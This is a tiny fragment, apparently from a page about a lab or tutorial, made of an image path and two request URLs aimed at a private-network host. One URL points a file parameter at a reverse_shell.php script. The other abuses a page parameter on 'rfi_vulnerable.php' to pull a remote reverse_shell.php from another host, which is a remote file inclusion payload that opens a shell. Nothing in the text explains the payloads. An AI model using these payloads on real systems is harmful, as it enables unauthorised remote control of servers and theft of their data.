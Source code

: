 http://192.168.1.88/view.php?file=/var/www/remote_scripts/reverse_shell.php

http://192.168.1.88/rfi_vulnerable.php?page=http://remote-scripts.local:8080/reverse_shell.php

